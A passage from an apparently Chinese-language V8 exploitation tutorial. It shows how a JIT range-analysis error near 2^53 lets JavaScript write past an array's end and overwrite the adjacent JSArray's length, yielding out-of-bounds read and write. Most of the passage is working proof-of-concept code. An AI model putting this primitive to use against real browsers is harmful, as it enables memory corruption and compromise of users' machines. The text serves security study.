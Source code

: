 ##### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="1)%20JSArray%20%E4%BF%AE%E6%94%B9%20length"></a>1) JSArray 修改 length
<li>我们将 FixedArray 的内存布局输出，可以发现 JSArray 和 FixedArray 的数据是**紧紧相邻**的，且 FixedArray 位于低地址处，这为我们修改 JSArray 的 length 提供了一个非常好的条件：[![](https://p1.ssl.qhimg.com/t01adce27b94266fa89.png)](https://p1.ssl.qhimg.com/t01adce27b94266fa89.png)
</li>
<li>现在我们可以试着越界修改一下 JSArray 的 length。需要注意我们必须越界四格才能修改到length，因此需要稍微修改一下POC越界的范围：
<pre><code class="lang-js hljs javascript">function f(x)
`{`
    let arr = [1.0, 1.1, 1.2, 1.3, 1.4, 1.5, 1.6]; // length =&gt; Range(7, 7)
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    // 此时 t =&gt; 解释/编译 Range(9007199254740989, 9007199254740992)
    t = t + 1 + 1;
    /* 此时 t =&gt; 
        解释：Range(9007199254740991, 9007199254740992)
        编译：Range(9007199254740991, 9007199254740994)
    */
    t -= 9007199254740990;
    /* 此时 t =&gt; 
        解释：Range(1, 2)
        编译：Range(1, 4)
    */
    t *= 2;
    /* 此时 t =&gt; 
        解释：Range(2, 4)
        编译：Range(2, 8)
    */
    t += 2;
    /* 此时 t =&gt; 
        解释：Range(4, 6)
        编译：Range(4, 10)
    */
    console.log(arr[t]);
    %DebugPrint(arr);
`}`

f(1);
%OptimizeFunctionOnNextCall(f);
f(1);
%SystemBreak();
</code></pre>
最后输出了`1.4853970537e-313`，用gdb转换成int类型，刚好为`7`，这就意味着我们现在可以修改 JSArray 的 length 了。
试一试：
<pre><code class="lang-js hljs javascript">var oob_arr = [];
function opt_me(x)
`{`
    oob_arr = [1.0, 1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;
    t -= 9007199254740990;
    t *= 2;
    t += 2;
    // 将 smi(1024) 写入至 JSArray 的 length处
    oob_arr[t] = 2.1729236899484389e-311; // 1024.f2smi
`}`
// 尝试优化
for(let i = 0; i &lt; 0x10000; i++)
    opt_me(1);
// 试着越界读取一下
console.log(oob_arr.length);
console.log(oob_arr[100]);
%SystemBreak();
</code></pre>